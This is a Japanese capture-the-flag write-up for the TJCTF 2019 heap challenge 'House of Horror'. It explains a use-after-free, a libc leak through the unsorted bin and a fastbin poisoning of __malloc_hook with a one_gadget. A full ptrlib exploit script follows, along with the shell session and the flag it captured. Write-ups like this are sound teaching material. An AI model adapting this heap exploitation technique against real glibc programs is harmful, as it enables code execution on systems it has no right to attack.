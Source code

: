 # [pwn 130pts] House of Horror - TJCTF 2019
PIE以外有効です。
```
$ checksec -f house_of_horror
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      Yes	0		1	house_of_horror
```

配列を作ったり消したり編集したり見たりできるヒープ系問題です。
サイズを指定すると`(size + 1) * 8`バイトだけmallocされます。
配列は最大で15個まで作れます。
また、配列の先頭にはサイズが入り、8バイト目から配列データが始まります。
削除した後にarray_listにNULLを入れていなのでUAFがあります。
libcのバージョンは2.23なのでfastbinで頑張らなきゃダメです。

サイズが自由なのでまずはunsorted binを使ってlibcのアドレスを取得しましょう。
```python
# libc leak
create_array(0x90 // 8) # 0
create_array(0x10 // 8) # 1
create_array(0x10 // 8) # 2
delete_array(0)
libc_base = int(view_element(0, 0), 10) - main_arena - delta
logger.info("libc base = " + hex(libc_base))
```

次にfastbinのリンクを偽装したいのですが、最初の要素はサイズとして使われており変更できません。
そこで、free済みチャンクのサイズが非常に大きな値になることを利用して、次のチャンクの先頭を`__malloc_hook`の場所に変更してやります。

```python
from ptrlib import *
import ctypes

def create_array(size):
    sock.sendlineafter("> ", "1")
    sock.sendlineafter("> ", str(size))

def delete_array(index):
    sock.sendlineafter("> ", "4")
    sock.sendlineafter("> ", str(index))

def view_element(index, offset):
    sock.sendlineafter("> ", "2")
    sock.sendlineafter("> ", str(index))
    sock.sendlineafter("> ", str(offset))
    return sock.recvline().rstrip()

def edit_element(index, offset, value):
    sock.sendlineafter("> ", "3")
    sock.sendlineafter("> ", str(index))
    sock.sendlineafter("> ", str(offset))
    sock.sendlineafter("> ", str(value))

libc = ELF("./libc.so.6")
sock = Socket("p1.tjctf.org", 8001)
#sock = Socket("127.0.0.1", 9999)
main_arena = 0x3c4b20
delta = 0x58
one_gadget = 0xf1147

# libc leak
create_array(0x90 // 8) # 0
create_array(0x60 // 8) # 1
create_array(0x60 // 8) # 2
create_array(0x60 // 8) # 3
delete_array(0)
libc_base = int(view_element(0, 0), 10) - main_arena - delta
logger.info("libc base = " + hex(libc_base))

# overwrite __malloc_hook
delete_array(1)
delete_array(2)
delete_array(3)
# fastbin->3->2->1
edit_element(2, 0x68 // 8, libc_base + libc.symbol("__malloc_hook") - 27 - 8)
# fastbin->3->__malloc_hook-35
create_array(0x60 // 8) # 4
create_array(0x60 // 8) # 5
target = libc_base + one_gadget
edit_element(5, 1, ctypes.c_longlong((target & 0xFFFFFFFFFF) << 24).value)
edit_element(5, 2, target >> 40)

# get the shell!
create_array(0x10 // 8)

sock.interactive()
```

できたー。
```
$ python solve.py 
[+] __init__: Successfully connected to p1.tjctf.org:8001
[+] <module>: libc base = 0x7ff016b6e000
[ptrlib]$ ls
[ptrlib]$ flag.txt
house_of_horror
libc.so.6
wrapper
cat flag.txt
[ptrlib]$ 
tjctf{tfw_u_accidentally_leave_fastbins_in_the_binary}[ptrlib]$
```

# 感想
この手の問題はだいぶ慣れてきました。
